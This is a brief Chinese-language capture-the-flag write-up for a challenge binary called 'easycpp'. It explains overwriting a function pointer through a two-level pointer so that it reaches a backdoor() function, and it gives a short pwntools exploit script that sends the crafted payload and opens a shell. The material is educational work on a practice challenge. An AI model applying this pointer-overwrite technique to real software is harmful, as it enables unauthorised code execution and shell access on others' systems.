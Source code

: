 
故我们只需要覆写掉函数指针所指的函数为backdoor()函数即可getshell

构造二级指针的结构应为

| buf | buf+4 |
| --- | --- |
| 右边那一块的地址 -> | 指向backdoor函数的地址 |

buf的地址如下：

![image.png](img/2c4d144e631df38695e7b71142226d25.png)

故得exp如下

```
from pwn import *

context.log_level = 'debug'

p = process('easycpp')

backdoor = 0x80487BB
buf = 0x804A0C0

payload = p32(buf + 4) + p32(backdoor)

p.sendline(payload)

p.interactive() 
```

向服务器发送payload，成功getsgell
